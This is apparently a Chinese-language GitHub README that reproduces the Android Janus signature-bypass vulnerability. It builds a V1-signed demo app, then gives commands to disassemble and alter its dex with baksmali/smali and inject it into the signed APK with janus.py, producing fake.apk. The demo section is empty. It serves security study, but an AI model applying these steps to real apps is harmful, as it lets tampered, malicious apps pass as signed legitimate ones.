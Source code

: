 # Android-Janus漏洞复现
> 漏洞复现：仅描述具体的复现过程，关于Janus漏洞原理和复现详情：https://drag0nf1y.github.io/
Janus漏洞复现：
## 复现过程
### 材料准备

#### 创建原始APP
MainActivity.java
```java
package com.example.a;

import android.support.v7.app.AppCompatActivity;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import android.widget.Toast;

public class MainActivity extends AppCompatActivity implements View.OnClickListener{

    private Button button;
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        button = (Button) findViewById(R.id.button);
        button.setOnClickListener(this);
    }

    @Override
    public void onClick(View v) {
        Toast.makeText(getApplicationContext(),"I am QT!!!",Toast.LENGTH_LONG).show();
    }
}
```
activity_main.xml
```xml
<?xml version="1.0" encoding="utf-8"?>
<android.support.constraint.ConstraintLayout
    xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    xmlns:app="http://schemas.android.com/apk/res-auto"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    tools:context=".MainActivity">

    <Button
        android:id="@+id/button"
        android:layout_width="117dp"
        android:layout_height="57dp"
        android:layout_gravity="center_horizontal"
        android:text="button"
        tools:ignore="MissingConstraints"
        tools:layout_editor_absoluteX="138dp"
        tools:layout_editor_absoluteY="324dp" />
</android.support.constraint.ConstraintLayout>
```
编译后，使用V1签名，而不使用V2签名
#### 检查原始APP
```c
C:\Users\伊木\Desktop\工具集\moblietools>java -jar GetAPKInfo.jar app-release.apk
执行结果: 成功
应用信息:
  包名: com.example.a
  版本名: 1.0
  版本号: 1
  签名文件MD5: 81d388301593097620b9e80d01a22a42
  SDK版本:
      minSdkVersion:22
      targetSdkVersion:28
  V1签名验证通过: true
  使用V2签名: false
  V2签名验证通过: false
  使用V3签名: false
  V3签名验证通过: false
  签名验证详细信息: {"ret":0,"msg":"","isV1OK":true,"isV2":false,"isV2OK":false,"isV3":false,"isV3OK":false,"keystoreMd5":"81d388301593097620b9e80d01a22a42"}
```
可见刚刚所编译得到的app是V1签名的，而不是V2签名的。
接下来进行攻击。

### 攻击过程
* apk直接解压得到dex文件

* 反编译dex文件
```c
java -jar baksmali-2.3.3.jar d classes.dex
```
得到的out文件中：
android/
androidx/
com

源文件在包com.example.a中。
* 修改源文件中，我们需要修改的部分，在这里我修改了字符串

* 重新打包得到dex
```c
java -jar smali-2.3.3.jar assemble out
```
在目录下重新生成out.dex
* 将dex放入原Janus.apk里
```c
python janus.py out.dex app-release.apk fake.apk
```
### 演示
